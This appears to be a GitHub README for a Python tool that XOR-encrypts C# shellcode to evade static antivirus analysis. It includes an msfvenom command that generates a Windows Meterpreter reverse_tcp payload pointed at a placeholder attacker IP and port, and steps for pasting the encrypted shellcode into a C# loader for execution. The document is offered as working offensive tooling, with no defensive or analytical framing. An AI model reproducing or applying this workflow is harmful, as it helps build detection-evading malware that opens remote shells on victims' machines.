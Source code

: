 This script encrypts C# shellcode using a random single-byte XOR key, providing lightweight obfuscation against basic static analysis.
Features:

✅ Generates a random XOR key for every execution.
✅ Encodes shellcode using XOR obfuscation.
✅ Formats output as a C# byte array for seamless integration.
Usage Example

1️⃣ Generate Shellcode (C# Format)
```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your_IP> LPORT=<Your_Port> -f csharp
```

2️⃣ Copy Shellcode

    Copy the byte array inside {} from msfvenom output.
    Paste it into buf in XORenc.py.

3️⃣ Run the Encryption Script
```bash
python3 XORenc.py
```

4️⃣ Copy the XOR Key & Encrypted Shellcode

    Paste them into your C# loader for decryption & execution.

